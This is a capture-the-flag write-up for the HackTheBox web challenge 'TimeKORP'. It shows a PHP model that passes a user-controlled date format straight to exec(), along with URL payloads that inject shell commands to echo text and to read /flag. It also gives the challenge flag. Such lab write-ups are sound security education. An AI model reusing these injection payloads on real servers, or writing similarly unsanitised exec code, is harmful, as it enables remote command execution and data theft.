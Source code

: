 # TimeKORP

> TBD
>
> Web Site:
> - `83.136.253.168:53981`
> 
> Files:
> - [web_timekorp.zip](web_timekorp.zip)

**Writeup by:** Hein Andre Grønnestad


- [TimeKORP](#timekorp)
  - [Checking Provided Files](#checking-provided-files)
  - [Web Site](#web-site)
    - [Frameworks](#frameworks)
  - [Command Injection](#command-injection)
    - [PoC](#poc)
  - [Flag](#flag)


## Checking Provided Files

```bash
$ ll
total 28
-rwxrwxrwx 1 hag hag 13763 Mar 11 08:31 README.md
-rwxrwxrwx 1 hag hag  8278 Mar 11 08:33 web_timekorp.zip

$ unzip web_timekorp.zip
Archive:  web_timekorp.zip
   creating: web_timekorp/
   creating: web_timekorp/config/
  inflating: web_timekorp/config/nginx.conf
  inflating: web_timekorp/config/fpm.conf
  inflating: web_timekorp/config/supervisord.conf
 extracting: web_timekorp/flag
   creating: web_timekorp/challenge/
   creating: web_timekorp/challenge/static/
  inflating: web_timekorp/challenge/static/main.css
  inflating: web_timekorp/challenge/Router.php
   creating: web_timekorp/challenge/views/
  inflating: web_timekorp/challenge/views/index.php
   creating: web_timekorp/challenge/models/
  inflating: web_timekorp/challenge/models/TimeModel.php
  inflating: web_timekorp/challenge/index.php
   creating: web_timekorp/challenge/assets/
  inflating: web_timekorp/challenge/assets/favicon.png
   creating: web_timekorp/challenge/controllers/
  inflating: web_timekorp/challenge/controllers/TimeController.php
  inflating: web_timekorp/build_docker.sh
  inflating: web_timekorp/Dockerfile

$ cd web_timekorp
$ ll
total 4
-rwxrwxrwx 1 hag hag 120 Mar  7 19:53 build_docker.sh
drwxrwxrwx 1 hag hag 512 Mar  7 19:53 challenge
drwxrwxrwx 1 hag hag 512 Mar  7 19:53 config
-rwxrwxrwx 1 hag hag 887 Mar  7 19:53 Dockerfile
-rwxrwxrwx 1 hag hag  27 Mar  7 19:53 flag

$ cd challenge/
$ ll
total 4
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 assets
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 controllers
-rwxrwxrwx 1 hag hag  389 Mar  7 19:53 index.php
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 models
-rwxrwxrwx 1 hag hag 2786 Mar  7 19:53 Router.php
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 static
drwxrwxrwx 1 hag hag  512 Mar  7 19:53 views
$
```


## Web Site

The website is simply a site which shows us the current time and the current date. The instantly interesting part is the `?format=%H:%M:%S` parameter in the URL.

We should check if there is some templating stuff we can abuse.

![alt text](images/00.png)


### Frameworks

The next step would be to figure out what kind of frameworks that are being used on the website.

```bash
$ whatweb http://83.136.253.168:53981/?format=%H:%M:%S
http://83.136.253.168:53981/?format=%H:%M:%S [200 OK] Bootstrap[4.0.0,4.4.1], Country[FINLAND][FI], HTTPServer[nginx], IP[83.136.253.168], JQuery, Meta-Author[makelaris, makelarisjr], Script, Title[Time], nginx
```

Running `whatweb` didn't give us that much information, but we can see that the website is using `Bootstrap` and `JQuery`.

Luckily the website source code has been provided, so we can check the source code to see if we can find any interesting information.

It didn't take long to find some interesting code. This is from `TimeController.php`:

![alt text](images/01.png)

This code is responsible for making the call to the `date` command. This is a classic example of a command injection vulnerability. We can see that the `$format` parameter is being used directly in the `date` command. This means that we can inject our own commands into the `date` command.


## Command Injection

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

We can see that a `command` is constructed in the constructor. The format specifier; `$format` is used directly in the command and we can control this parameter.

### PoC

```bash
http://83.136.253.168:53981/?format=%H:%M:%S';echo 'test
```

![alt text](images/02.png)

We can see that the `echo` command was executed and outputs `test`.

If we look at the code, we can see how this works:

```php
$this->command = "date '+" . $format . "' 2>&1";

// Payload: format=%H:%M:%S';echo 'test

// - We add a single quote to close the format specifier
// - Then we add a semicolon to execute our own command
// - Our own command also uses a single quote to make sure that we consume the remaining single quote from the original command

// This will result in the following command:
// date '+%H:%M:%S';echo 'test' 2>&1
```

This means that we have command injection. We can use this to read the flag.

First we need to figure out where the `flag` is located on the server.

The `Dockerfile` gives this away:

```Dockerfile
# Copy flag
COPY flag /flag
```

Tha flag is located in the root directory of the server. We can use the `cat` command to read the flag.

```bash
http://83.136.253.168:53981/?format=%H:%M:%S';cat '/flag
```

![alt text](images/03.png)

Success! 🚩


## Flag

`HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
